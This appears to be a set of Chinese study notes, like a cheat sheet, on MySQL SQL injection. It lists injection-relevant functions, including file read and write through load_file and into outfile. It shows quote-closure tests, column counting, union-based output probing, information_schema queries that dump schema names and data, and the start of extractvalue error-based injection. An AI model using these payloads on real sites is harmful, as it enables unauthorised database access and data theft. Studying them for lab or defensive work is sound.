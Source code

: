 # 常用参数
● user()：当前数据库用户

● database()：当前数据库名

● version()：当前使用的数据库版本、

● @@version_compile_os：查看操作系统

● @@datadir：数据库存储数据路径

● concat()：联合数据，将多个字符串连接成一个字符串

● group_concat()：将查询到的数据连接成一个字符串输出，用于联合查询

● concat_ws()：第一个参数是分隔符，将后续所有参数使用分隔符联合起来

● substr(a,b,c)/substring(a,b,c):限制a的输出，从b位开始输出c位

● hex() 和 unhex()：用于 hex 编码解码

● ASCII()：返回字符的 ASCII 码值

● CHAR()：把整数转换为对应的字符

● load_file()：以文本方式读取文件，在 Windows 中，路径设置为 \\

● select xxoo into outfile '路径'：权限较高时可直接写文件

# 前置测试
## 构造闭合
?id=1'

测试时可能出现一下报错：

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near **''1'' LIMIT 0,1'** at line 1

借此报错可以判断闭合方式

接着加上--+/#注释后面的代码，使用AND 1=1/AND 1=2进一步验证

## 查询列数
order by 5

or

group by 5

一个一个尝试:-D

## 测试回显位
union select 1,2,3...

# SELECT查询
## 查询数据库库名
所有数据库：
select group_concat(schema_name) from information_schema.schemata

当前数据库：
select database()

## 查询表名
select group_concat(table_name) from information_schema.tables where table_schema='数据库名'

## 查询列名
select group_concat(column_name) from information_schema.columns where table_name='表名'

## 查询数据
select group_concat(列名1,'-',列名2) from 数据库名.表名

# 报错注入
## extractvalue()
报错原理：
select extractvalue(doc,'/book/title') from xml;

↓

select extractvalue(doc,'~book/title') from xml；

